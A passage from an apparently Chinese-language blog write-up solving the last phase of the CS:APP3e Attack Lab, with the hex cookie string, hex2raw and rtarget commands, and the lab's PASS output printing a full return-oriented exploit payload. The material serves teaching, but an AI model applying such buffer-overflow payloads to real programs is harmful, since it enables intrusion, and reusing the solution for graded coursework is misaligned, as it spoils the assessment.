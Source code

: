 ```
35 39 62 39 39 37 66 61 00 /* strings of cookie */
```

使用命令

```
❯ ./hex2raw < expolit.txt > expolit_raw.txt

❯ ./hex2raw < in.txt > out_raw.txt

❯ ./rtarget -q -i expolit_raw.txt < out_raw.txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 1B 14 40 00 00 00 00 00 00 00 00 00 00 00 00 00 83 13 40 00 00 00 00 00 00 5A 60 00 00 00 00 00 30 0D 40 00 00 00 00 00 1B 14 40 00 00 00 00 00 00 5A 60 00 00 00 00 00 FA 18 40 00 00 00 00 00
```

这里解释一下为什么这样做

如果我们将 cookie 的字符串序列同样写在 expolit.txt 文件中，生成文件 expolit_raw.txt 。使用命令`./rtarget -q < expolit_raw.txt` 去运行，在执行到 read 函数时不会往对应地址中读取任何数据，我也并不知道这是为什么，好在目标文件提供了 `-i` 这个参数从文件中读取数据，我们使用 `-i` 参数去读取文件 expolit_raw.txt中数据，这样在执行 read 函数从标准输入流中读取数据时，我们就可以手动输入对应的 cookie 字符串，可是手动输入会把 `\n` 计算在字符串内，无法比较通过，这时候就可以将其写入一个文件中，通过输入重定向方式输入 `\x00` 截断字符串 这也是 in.txt 文件最后为什么有一个 `00` 存在的原因

**phase5 pass**

# 总结

这些题目来自 `Computer Systems: A Programmer's Perspective, 3/E (CS:APP3e)` 的 lab3 。

这部分内容对于学过一点 pwn 的我来说还是比较容易，cmu 的 `15-123` 的确也是一门不可多得的好课，通过做这两个实验，使我对汇编 objdump gdb 的认识也更近了一步。感觉虽然没能学到太多高深奥妙的东西，但是这种对于基础知识学习，将计算机基础打得更牢固的感觉也使我感到不错。
